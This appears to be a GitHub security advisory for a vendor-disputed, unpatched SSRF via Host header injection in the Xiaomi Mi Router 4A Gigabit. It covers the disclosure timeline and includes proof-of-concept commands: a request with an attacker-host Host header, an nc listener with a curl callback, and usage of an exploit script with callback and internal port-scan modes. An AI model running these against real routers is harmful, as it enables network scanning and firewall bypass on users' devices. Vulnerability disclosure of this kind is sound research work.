

# CVE-2026-26898: Xiaomi Mi Router 4A Gigabit - SSRF via Host Header Injection


-orange)


## Summary

A Server-Side Request Forgery (SSRF) vulnerability exists in the Xiaomi Mi Router 4A Gigabit Edition. The router's web interface fails to validate the HTTP `Host` header, allowing an **unauthenticated attacker** to force the router to make arbitrary outbound TCP connections.

| Field | Value |
|-------|-------|
| **Device** | Xiaomi Mi Router 4A Gigabit Edition |
| **Firmware** | 3.0.24 (International) |
| **CVE** | CVE-2026-26898 *(contested — see Disclosure Status below)* |
| **CWE** | CWE-918 (Server-Side Request Forgery) |
| **CVSS 3.1** | 8.6 (High) — researcher-assessed; vendor disputes severity |

## Vendor Response & Disclosure Status

> **Status: Disputed by vendor — this report was _not_ accepted by Xiaomi.**

- **Reported to Xiaomi** via HackerOne (report **#3513458**) on **2026-01-16**.
- On **2026-01-23**, Xiaomi closed the report as **Informative**, stating it is a previously known
  issue, that the router "still relies on the proxy function," and that they classify it as
  **low-risk and will not address it**.
- **Researcher position:** the severity rating is disputed. The device is **still actively sold** on
  official Xiaomi channels (mi.com/tr) as of Jan 2026, the endpoint is reachable **without
  authentication**, and the SSRF enables internal-network scanning and access to services that trust
  local connections. The behaviour remains **unpatched**.

CVE-2026-26898 is used here for tracking only; given the vendor dispute it should be treated as
**contested / unconfirmed**, not vendor-confirmed.

## Affected Endpoint

```
GET /cgi-bin/luci/api/xqsystem/login HTTP/1.1
Host: <ATTACKER_IP>:<PORT>
```

## Proof of Concept

### Screenshot


### Quick Test
```bash
python3 xiaomi_ssrf_exploit.py --target 192.168.31.1 --check
```

### Output
```
[*] Checking vulnerability on 192.168.31.1...
[*] Local IP: 192.168.31.235
[*] Test Port: 44444
[+] VULNERABLE! Router connected back to 192.168.31.235:44444
```

### Manual Test
```bash
# Terminal 1: Start listener
nc -l 4444

# Terminal 2: Send malicious request
curl -H "Host: YOUR_IP:4444" "http://192.168.31.1/cgi-bin/luci/api/xqsystem/login"
```

## Impact

- **Internal Network Scanning**: Use router as proxy to scan internal networks
- **Firewall Bypass**: Access services restricted to router's IP
- **Attack Chain**: Can be combined with other vulnerabilities for RCE

## Files

| File | Description |
|------|-------------|
| `xiaomi_ssrf_exploit.py` | Full exploit with multiple modes |

## Exploit Usage

```bash
# Check if vulnerable
python3 xiaomi_ssrf_exploit.py --target ROUTER_IP --check

# Callback mode
python3 xiaomi_ssrf_exploit.py --target ROUTER_IP --callback YOUR_IP --port 4444

# Port scanner
python3 xiaomi_ssrf_exploit.py --target ROUTER_IP --scan TARGET_IP --ports 22,23,80,443
```

## Timeline

| Date | Event |
|------|-------|
| 2026-01-15 | Vulnerability discovered; PoC developed |
| 2026-01-16 | Reported to Xiaomi via HackerOne (#3513458) |
| 2026-01-23 | Xiaomi closed the report as **Informative** (low-risk, will not fix) |
| 2026-06-03 | Public advisory published (this repository) — vendor-disputed, unpatched |

## References

- HackerOne report **#3513458** (submitted to Xiaomi; closed Informative)
- CWE-918: Server-Side Request Forgery (SSRF)

## Disclaimer

This exploit is provided for educational and authorized security testing purposes only. Unauthorized access to computer systems is illegal.

## Author

**Ahmet Mersin**  
🌐 [ahmetmersin.com](https://ahmetmersin.com)  
🐙 [@iwallplace](https://github.com/iwallplace)
